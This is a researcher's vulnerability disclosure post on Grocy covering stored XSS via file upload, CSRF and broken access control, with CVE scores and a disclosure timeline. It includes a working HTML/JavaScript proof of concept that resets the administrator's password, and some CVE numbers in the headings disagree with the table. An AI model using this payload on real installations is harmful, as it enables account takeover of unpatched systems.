 ```yaml
---
title: All Your Recipe Are Belong to Us (Part 1/3) - Stored XSS, CSRF and Broken Access Control Vulnerabilities in Grocy
date: 2024-11-27T04:00:56+01:00
toc: false
images: 
tags:
  - CVE
  - Web
  - English
---
```


I used 4 hours of my free time (not counting the Responsible Disclosure and Blog Posts...) to "speed pentest" the three biggest and most popular (measured by Github stars) open-source recipe managers. This included [Grocy](https://github.com/grocy/grocy), which had >6900 stars at the time of testing. Here I found 3 vulnerabilities. The first one is an _Unrestricted File Upload_, through which it was possible to upload any files. This included HTML and SVG files to achieve _Stored XSS_. The second one is a _CSRF_ vulnerability, because the session token has no security flags set, as well as no CSRF countermeasure is implemented. The last one is "one" _Broken Access Control_ vulnerability: For most functions, only the link in the sidebar is disabled for unauthorized users, but a direct call to the URL or API endpoint allows access to data for which you have no permissions.

## Overview of the Vulnerabilities
| CVE | Name                                                                               | CVSS Score      |
| ----- | ---------------------------------------------------------------------------------- | ------ |
| CVE-2024-55074 | Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS | [8.7 High](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) |
| CVE-2024-55075 | CSRF: Change the administrator's password                                          | [6.8 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| CVE-2024-55076 | BAC: Users can directly call functions, which they are not authorized for          | [6.5 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) |

## Remediation

The maintainer stated the they do not care about the vulnerabilities because Grocy is a hobby project and not intended for the use in a sensitive enterprise area. This means that the vulnerabilities probably won't get fixed.

## Vulnerabilities in Detail

### [CVE-2024-55074] Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS (8.7 High)
Users have by default the permission to edit their own profile. There they can upload a profile picture. However it is not validated whether the uploaded file is a benign picture or not. Thus, it is possible to upload malicious HTML or SVG files. As a POC I've created the following HTML file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update User</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the PUT request
        async function updateUser() {
            const url = '/api/users/1'; // Target endpoint
            const payload = {
                username: "admin",
                first_name: "",
                last_name: "",
                change_password: "1",
                password: "NewPassword123",
                password_confirm: "NewPassword123"
            };

            try {
                const response = await fetch(url, {
                    method: 'PUT',
                    credentials: 'include', // Include cookies in the request
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload) // Convert payload to JSON string
                });

                if (response.ok) {
                    document.getElementById('status').textContent = 'User updated successfully!';
                } else {
                    const errorText = await response.text();
                    document.getElementById('status').textContent = 'Failed to update user: ' + errorText;
                }
            } catch (error) {
                document.getElementById('status').textContent = 'Error: ' + error.message;
            }
        }

        // Execute the request when the page loads
        (async function execute() {
            await updateUser();
        })();
    </script>
</body>
</html>
```
When the file is viewed by an administrator, the JavaScript will issue a request that changes the password of the user with id 1 (by default an administrator) to `NewPassword123`.
The following screenshot shows the upload function:

![Grocy1](/media/2024/11/grocy1.png)

After saving the changes, we can see the URL of the uploaded file

![Grocy2](/media/2024/11/grocy2.png)

We need to remove the appended `?force_serve_as=picture&best_fit_width=32&best_fit_height=32` in order for the file to be executed

![Grocy3](/media/2024/11/grocy3.png)

As we do not have administrative rights (YET ;)) we receive an error message. However, if an administrator visits the url, the request is successful

![Grocy4](/media/2024/11/grocy4.png)

Now we can login as the administrator `admin` with the newly set password `NewPassword123`

![Grocy5](/media/2024/11/grocy5.png)

### [CVE-2024-45875] CSRF: Change the administrator's password (6.8 Medium)
The session cookie has no security flags (escpecially SameSite) set

![Grocy6](/media/2024/11/grocy6.png)

Further no CSRF countermeasures (such as CSRF-Tokens) are implemented at all, leaving all functions vulnerable to CSRF. E.g. see the following request to change the administrator's password

![Grocy7](/media/2024/11/grocy7.png)

The same POC as the previous vulnerability can be used, but instead of the relative URL a absolute URL needs to be specified. If an adminstrative user visits this POC on the attacker's website, the password of the default administrative user will be changed.

### [CVE-2024-55074] Broken Access Control: Users can directly call functions, which they are not authorized for (6.5 Medium)

As a starting point, we create a user `user` with no permissions

![Grocy8](/media/2024/11/grocy8.png)

The user is not authorized to access most of the functions of the webapp. The links to those functions are deactivated on the sidebar. However the user is still able to access those functions by requesting their URL directly. e.g. we can request /calendar in order to view the calendar and its entries.

![Grocy9](/media/2024/11/grocy9.png)

A further example are the recipes

![Grocy10](/media/2024/11/grocy9.png)

This affetcs ALL functions except the user management.

However, it is only possible to view data and not to modify it.

## Timeline
| Date | Event |
| - | - |
| 2024-11-26 | Discovered the vulnerabilities |
| 2024-11-26 | Reported the vulnerabilites |
| 2024-11-26 | Maintainer replied that they do *NOT* want to be bothered with "irrelevant" security issues and that I may publish my blog post |
| 2024-11-27 | CVEs requested |
| 2025-01-06 | CVEs were assigned |
